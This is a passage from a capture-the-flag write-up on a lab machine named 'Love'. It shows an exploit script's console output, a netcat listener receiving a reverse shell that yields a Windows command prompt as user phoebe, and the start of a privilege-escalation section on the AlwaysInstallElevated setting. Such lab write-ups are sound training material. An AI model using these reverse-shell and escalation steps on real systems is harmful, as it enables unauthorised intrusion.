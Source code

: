 Exploit code alerting:

![image-20240312061032808](./Love.assets/image-20240312061032808.png)

```console
└─╼$ python exp.py
Start a NC listner on the port you choose above and run...
Logged in
Poc sent successfully

└─╼$ sudo rlwrap -cAr nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.18] from (UNKNOWN) [10.129.48.103] 57911
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe
```

## Privilege Escalation

### Enumeration

WinPEAS Output: `AlwaysInstallElevated`

Reference: [Windows Local Privilege Escalation | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated)

If these 2 registers are enabled (value is 0x1), then users of any privilege can install (execute) *.msi files as NT AUTHORITY\SYSTEM.

